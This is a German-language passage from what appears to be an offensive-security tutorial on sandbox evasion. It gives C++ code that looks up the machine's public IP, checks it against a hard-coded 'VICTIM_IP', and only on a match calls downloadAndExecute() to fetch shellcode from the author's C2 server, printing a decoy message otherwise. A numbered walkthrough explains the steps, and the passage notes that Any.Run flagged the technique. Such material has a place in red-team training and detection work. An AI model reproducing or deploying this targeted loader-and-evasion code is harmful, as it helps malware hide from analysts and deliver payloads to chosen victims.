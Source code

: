 ```cpp
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
    // Vergleiche, ob der String der IP-Adresse des Opfers entspricht. Wenn ja, gib TRUE zurück. Andernfalls, gib FALSE zurück.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
        return FALSE;   
    }
}
```

Dieser Code kann in die folgenden Schritte unterteilt werden:

1. Deklariere die erforderlichen Variablen, die oben erwähnt wurden.
2. Öffne einen Internet-Stream mit der Funktion `URLOpenBlockingStreamA`, um die aktuelle IP-Adresse abzufragen.
3. Schreibe den Datenstrom, der von der Funktion `URLOpenBlockingStreamA` zurückgegeben wird, in den Speicher.
4. Füge die Daten aus dem Speicherpuffer zu einer String-Variable hinzu.
5. Überprüfe, ob die String-Daten der IP-Adresse des Opfers entsprechen.
6. Wenn ja, gib TRUE zurück; wenn nein, gib FALSE zurück.

Nun müssen wir unsere Hauptfunktion ändern, um unsere neu erstellte Funktion zu nutzen:

```cpp
int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
}
```

Der obige Code ruft die neue Funktion `checkIP()` auf, und wenn die IP-Adresse TRUE zurückgibt, wird die Funktion `downloadAndExecute()` aufgerufen, um den Shellcode von unserem C2-Server abzurufen. Wenn FALSE, wird "HTTP/418 - I'm a Teapot!" zurückgegeben.

**Testen unseres Codes**

Nun, da wir unsere zweite Sandbox-Evasionstechnik abgeschlossen haben, ist es sehr wichtig zu wissen, dass dies eine unglaublich häufige TTP (Taktik, Technik und Verfahren) ist, die von Bedrohungsakteuren verwendet wird. Sowohl APTs als auch Red Teams verwenden oft Dienste, um die "Abuse Info" einer IP-Adresse zu überprüfen, um Informationen über eine IP-Adresse zu sammeln und zu bestimmen, ob es sich um ein legitimes Unternehmen handelt oder nicht. Any.Run ist sich dieser Anti-Sandboxing-Technik bewusst und hat sie in unserem Fall sogar markiert. Die detaillierten Ergebnisse können unter den folgenden Links eingesehen werden:
